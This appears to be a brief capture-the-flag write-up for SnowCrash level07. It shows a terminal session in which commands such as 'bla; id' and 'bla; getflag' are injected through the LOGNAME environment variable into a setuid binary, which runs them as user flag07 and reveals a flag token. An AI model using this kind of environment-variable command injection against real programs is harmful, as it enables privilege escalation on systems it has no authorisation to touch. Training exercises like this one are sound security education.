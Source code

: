 level07@SnowCrash:~$ export LOGNAME="bla; ls"
level07@SnowCrash:~$ ./level07 
bla
ls: cannot open directory .: Permission denied
level07@SnowCrash:~$ export LOGNAME="bla; id"
level07@SnowCrash:~$ ./level07 
bla
uid=3007(flag07) gid=2007(level07) groups=3007(flag07),100(users),2007(level07)
level07@SnowCrash:~$ export LOGNAME="bla; getflag"
level07@SnowCrash:~$ ./level07 
bla
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h

![BinaryNinja](https://cdn.discordapp.com/attachments/1015186220227231825/1126832842886885417/image.png)
